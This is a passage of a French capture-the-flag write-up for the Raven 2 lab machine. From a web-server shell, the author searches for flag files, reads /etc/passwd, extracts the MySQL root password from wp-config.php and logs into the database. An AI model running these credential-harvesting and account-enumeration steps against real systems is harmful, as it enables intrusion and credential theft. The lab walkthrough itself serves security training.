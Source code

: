 Tout comme lors du premier challenge Raven, le fichier ```/etc/passwd``` témoigne de l'existence d'un deuxième utilisateur potentiellement intéressant : ```steven```. D'autre part, le fichier de configuration ```wp-config.php``` nous donne le sésame de la base de données présente sur le serveur ; ça tombe bien, c'est le même que Raven: 1. Enfin, la recherche du mot-clé ```flag``` sur le serveur a été concluante : les deuxième et troisième flags du CTF ont été (re)trouvés.

```console
www-data@Raven:/var/www/html/vendor$ find / -type f -name "*flag*" 2>/dev/null
<l/vendor$ find / -type f -name "*flag*" 2>/dev/null
/proc/kpageflags
/proc/sys/kernel/acpi_video_flags
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag-2x.png
/var/www/html/wordpress/wp-includes/images/icon-pointer-flag.png
/var/www/flag2.txt
--snip--

www-data@Raven:/var/www/html/vendor$ tail -n5 /etc/passwd
tail -n5 /etc/passwd
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
smmta:x:108:114:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:109:115:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh

www-data@Raven:/var/www/html/vendor$ cat /var/www/html/wordpress/wp-config.php | grep DB
<l/vendor$ cat /var/www/html/wordpress/wp-config.php | grep DB
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
```

On se connecte ainsi avec les identifiants trouvés, et on récupère le contenu de la table ```wp_users```.

```console
www-data@Raven:/var/www/html/vendor$ mysql -u root -p
mysql -u root -p
Enter password: R@v3nSecurity

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 37
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
```
